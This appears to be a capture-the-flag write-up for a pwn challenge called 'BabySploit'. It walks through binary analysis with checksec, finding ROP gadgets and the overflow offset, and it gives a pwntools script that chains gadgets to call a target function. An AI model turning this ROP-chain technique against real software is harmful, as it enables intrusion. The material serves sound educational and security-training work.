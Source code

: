 ### BabySploit

Task:  

```bash
nc 78.40.108.21 1338
```

of find binary in attachment.     

### analyze

First, we will check, what file we got using the `file`:    

```bash
file ./babysploit
```

![img](./img/2024-03-17_15-25.png)     

Our file is an `ELF` file, which means Executable and Linkable Format and is the most common format
for executables and shared libraries (`.so` files) on `UNIX` systems. Dynamic linking allows the binary to be
smaller, at the expense of having to ensure that the required dependencies exist in the target system that
the binary will be executed in.     

The `checksec` command shows us, the security aspects of the binary:    

```bash
checksec ./babysploit
```

![img](./img/2024-03-17_15-36.png)    

### exploitation

As we can see, `NX` is enabled. If `NX` is enabled, the stack is usually not executable, so you can only read and
write from that section.    

Use `ROPGadget` to find the instructions:

```bash
ROPgadget --binary ./babySploit | grep "pop rdi ; ret"
```

![img](./img/2024-03-17_15-39.png)    

or via `ropper`:    

```bash
ropper --file ./babySploit --search "pop rdi; ret"
```

![img](./img/2024-03-17_15-40.png)    

```bash
ropper --file ./babySploit --search "pop rsi; ret"
```

![img](./img/2024-03-17_15-41.png)    

Find offset:    

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

![img](./img/2024-03-17_15-42.png)     

```bash
run
x/xg $rsp
pattern_offset 0x413b414144414128
```

![img](./img/2024-03-17_15-50.png)     

So, solution via python3 `pwntools`:    

```python
from pwn import *

exe = ELF('./babySploit')
context.binary = exe

# p = remote('78.40.108.21', 1338)
p = gdb.debug('./babySploit', '''continue''')

pop_rdi = 0x401196
pop_rsi = 0x401198
hacked = exe.symbols['hacked']
p.sendline(b'A' * 24 + p64(pop_rdi) + p64(0xdeadbeefdeadbeef) + p64(pop_rsi) + p64(0xc0debabec0debabe) + p64(hacked))

p.interactive()
```

*NX: - The NX (do not execute) bit is a technology used in CPUs that guarantees that certain memory
areas (such as the stack and heap) are not executable, and others, such as the code section, cannot
be written. It basically prevents us from using simpler techniques like we wrote a shellcode in the stack and then executed it.*    

